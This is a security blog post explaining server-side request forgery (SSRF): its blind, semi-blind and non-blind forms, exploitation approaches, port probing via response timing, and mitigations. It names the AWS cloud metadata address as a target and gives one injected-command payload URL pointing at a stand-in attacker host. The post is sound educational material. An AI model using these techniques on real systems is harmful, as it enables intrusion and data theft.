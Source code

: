 ```yaml
---
title: 'SSRF Vulnerabilty'
date: 2023-02-18
permalink: /posts/2023/02/SSRF/
tags:
  - Vulnerability
  - OWASP TOP 10
  - ssrf
---
```

What is SSRF ?

SSRF stands for server-side request forgery. It is one of the most popular web security vulnerabilities exploited by hackers and security researchers.

It is a security vulnerability where an attacker can abuse the available functionalities in a server-side application to access internal server files, resources leading to potentially sensitive information disclosure.


Types of SSRF
======
Non-Blind SSRF: 
======
This is a type of SSRF where an application fetches the requested resource and directly presents it on the front end. The whole output is clearly visible to the user/attacker.

Blind SSRF:
======
 This is an interesting and very common type of SSRF where the HTTP request for requesting resources is made by the server but the output isn’t visible on the frontend. In simple words, the resource is requested by the server but not displayed to the user/attacker. There are certain ways of exploiting this type of SSRF vulnerabilities and we will cover them further in this blog.

Semi-blind SSRF:
====== 
In this type of SSRF, a resource is requested but the complete output isn’t visible to the user but instead it can be file metadata, parts of the file, complete file path in the form of stack trace errors, and more.

This is called semi blind because the data is partially available, unlike blind SSRF where nothing is visible on the frontend. To exploit semi-blind SSRF, similar ways of exploiting blind SSRFs can be used.
 
======
Exploitation
We will now cover the exploitation of the different types of SSRF cases explained above. Keep in mind that there can be unique methods of exploiting SSRF because the behavior of the application matters a lot while exploiting and validating security issues so a straightforward method may not always work.

Non-Blind SSRF
The exploitation of a regular non-blind SSRF is simple as we expect the output to be displayed directly on our screens.

It is usually when an application sends a request to fetch a resource located in the same server itself or sometimes inside external backend servers, IP addresses and virtual hostnames can be used by the web application to reach out to the external servers. If we know the address of the resource we want to access, we can use that URL/path to make the application fetch the resource and simply display it to us on the frontend.

A common scenario here is when an application is hosted on AWS or Google Cloud or other cloud services then there are link-local addresses provided by the cloud service provider to fetch internal metadata. In the case of AWS, the address is http://169.254.169.254 and if an attacker can hit this target from an SSRF vulnerable application hosted on AWS, sensitive information can be exposed.

List of Cloud Metadata fetching endpoints - https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

Keep in mind that there are cases where an application blocks certain protocols, keywords so you might require bypassing some blacklists, and bypassing WAFs is a whole different topic. (I might write another blog on that one 😉)

Where to look for non-blind SSRFs?

Non-blind SSRFs are common in PDF generators, HTML-to-PDF converters as we can use HTML code to create an iframe with the contents of an internally located file.

For hunting SSRFs in web applications, enumerate all the endpoints well because you might get different GET/POST parameters with URL or pathnames and they are usually the most common candidates for testing SSRF vulnerabilities.

An endpoint with GET parameters like ?file= or ?resource= are more likely to be vulnerable to SSRF as the parameter name suggests a potential value of file paths and URLs. Modifying the value to internally located filenames or even external hosts can help in testing SSRFs.

Blind SSRF
Similar to non-blind SSRFs, we should look for endpoints where there is any type of URL or file path we can modify.

In blind SSRF, an application takes a resource address and tries to send a request to it. We can host a server we can control and use the address of it to try exploiting blind SSRFs.

If there’s an endpoint that loads images from external URLs then we can start a local server and use the address as the image URL and if the application tries to load the image from our entered URL, we should see an HTTP request in the logs of the server we control.

How to exploit it? The way to exploit blind SSRF isn’t clear. There are many different methods we can try to gain something impactful out of blind SSRFs.

One way to gain something meaningful: A vulnerable application can send a request to external hosts that we control and we can read the request headers inside our log files to gain more information about the internal infrastructure. With this method, internal IP addresses can be exposed and used for further exploitation.

The impact of blind SSRFs is usually dependent on our abilities to chain different issues together. Forming a great exploit chain can help gain something impactful out of a blind SSRF. The deployed infrastructure plays a huge role in it.

There are cases where blind SSRFs are escalated to remote code executions by injecting command injection payloads in remote URLs e.g. https://attacker.com/?param=$(whoami)

I found an awesome GitHub repository with precious knowledge on “Blind SSRF Chains” - https://github.com/assetnote/blind-ssrf-chains

Cross-Site Port Attack (XSPA)

Another great way to gain something impactful out of blind SSRFs is by an XSPA attack. It consists of entering the address of am internal hostname from the intranet or the web server itself so that the vulnerable application hits the target and we can determine the availability based upon the response timing or error messages.

Let’s say we enter the IP address 127.0.0.1 with different ports ranging from 8000-9000 in a parameter vulnerable to Blind-SSRF. If the usual response time is 1500ms on almost all the ports but the response from port 8443 is unusually delayed (e.g. 3000ms) then it’s often an indication that internal port 8443 is open and the rest of the ports are closed as 8443 took the longest time to respond.

Using banners, error messages, response timings, we can enumerate the infrastructure specifics, and that’s how you take advantage of blind SSRFs.

Keep in mind that not all applications that send the request to internal/external servers are exploitable, many endpoints are intended to send requests for a smooth experience and different features. To protect such endpoints from being exploited, developers use a proxy or isolated servers just to make those requests and even if an attacker gets information about those proxy servers like the IP address, it’s usually meaningless.

Semi-blind SSRF
It is almost similar to blind SSRF but in this type, the information revealed won’t be the complete data from the fetched resource. Instead, you might just get the file path in the server or get clues from the response if the file is available in the server or not. Exploiting this vulnerability can be done by enumerating the availability of internal files and maybe fetching some meta-data. All of it is totally dependent on the nature of the application.


Mitigation tips
======

Disabling unnecessary URL schemas - SSRFs aren’t just about sending HTTP requests to internal/external hosts via the vulnerable application. Many different protocols can be used to fetch data from different kinds of infrastructure set-ups. Most common ones are dict://, gopher://, ftp://, file://. Disabling unnecessary protocols can help by reducing the attack surface for the attackers to fetch data from.
Response Validation - The response fetched from the HTTP requests made by the application shouldn’t be served to the user directly. There should be a validation process of data in action so only the expected input and output work.
Authentication - Authentication inside the local network can be used to make things harder for the attacker,
Proxy Servers - Proxy servers can be used to make requests and fetch resources, the server should be isolated and shouldn’t have access to the critical infrastructure and data.
------